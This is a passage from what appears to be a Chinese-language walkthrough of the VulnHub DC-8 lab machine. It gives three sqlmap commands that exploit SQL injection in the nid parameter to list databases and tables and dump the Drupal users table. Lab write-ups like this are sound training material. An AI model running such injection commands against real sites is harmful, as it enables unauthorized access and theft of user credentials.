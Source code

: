 都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/4.png)

SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/5.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/6.png)
